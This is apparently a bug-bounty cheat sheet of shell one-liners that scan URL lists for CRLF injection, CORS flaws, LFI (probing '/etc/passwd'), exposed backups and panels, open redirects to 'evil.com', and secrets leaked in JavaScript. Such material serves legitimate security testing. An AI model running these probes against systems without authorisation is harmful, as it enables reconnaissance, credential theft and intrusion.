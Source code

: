 ```bash
cat urls.txt | nuclei -silent -t technologies/wordpress/
```

### Hunt for CRLF Injection (Newline Injection)
To hunt for CRLF injection:

```bash
cat urls.txt | gf crlf | qsreplace '%0d%0aTestHeader:TestValue' | httpx -silent -hdrs
```

### Detect CORS Misconfigurations (Very Common Bug)
To detect CORS misconfigurations:

```bash
cat urls.txt | corscanner
```

### Test All URLs for LFI (Local File Inclusion)
To test all URLs for LFI:

```bash
cat urls.txt | gf lfi | qsreplace '/etc/passwd' | httpx -silent -mc 200
```

### Find Information Disclosure via Backup Files
To find information disclosure via backup files:

```bash
cat urls.txt | waybackurls | grep -Ei '\.(bak|old|backup|log|sql|env|zip|tar|gz|rar)$' | httpx -silent -mc 200
```

### Find Exposed Panels (Admin, Login, etc.)
To find exposed admin/login panels:

```bash
cat urls.txt | nuclei -silent -t exposed-panels/
```

### Full JS Hunting + Secrets Scan (for frontend leaks)
For full JS hunting and secrets scan:

```bash
gau target.com | grep '\.js$' | httpx -silent | xargs -I{} bash -c 'echo {} && curl -s {} | tr -d "\r" | grep -E -i "(api[_-]?key|secret|token|auth|password|passwd|client[_-]?id|client[_-]?secret)="'
```

### Search for Open Redirects (URL Redirect issues)
To search for open redirects:

```bash
cat urls.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -mc 302,301 -fr 'evil.com'
```
